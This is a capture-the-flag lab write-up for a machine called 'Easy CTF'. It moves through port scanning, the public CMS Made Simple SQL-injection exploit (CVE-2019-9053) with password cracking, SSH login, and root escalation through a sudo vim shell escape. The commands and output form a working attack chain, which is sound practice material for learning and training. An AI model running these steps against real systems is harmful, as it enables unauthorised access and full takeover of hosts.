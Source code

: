 # Easy CTF
- IP: 10.10.177.101

## Open Ports
```
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  ssh
```

## Directories (80/tcp)
- `/robots.txt`
- `/simple/` -> CMS Made Simple 2.2.8

## CMS Made Simple 2.2.8
- `searchsploit cms made simple 2.2`
  - `CMS Made Simple < 2.2.10 - SQL Injection              | php/webapps/46635.py`
  - `CVE-2019-9053
  - `python /usr/share/exploitdb/exploits/php/webapps/46635.py -u http://10.10.177.101/simple --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt`
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

## SSH
- `ssh mitch$IP -p 2222`
- User flag: `cat user.txt
- Other user: `sunbath`

- `./linpeas.sh | tee linlog.txt` -> (root) NOPASSWD: /usr/bin/vim
- or `sudo -l` -> (root) NOPASSWD: /usr/bin/vim

## Privilege Escalation
- `sudo vim random`
- `:!sh`
- `whoami` -> root

- `cd /root`
- `cat root.txt` -> W3ll d0n3. You made it!

SOLVED
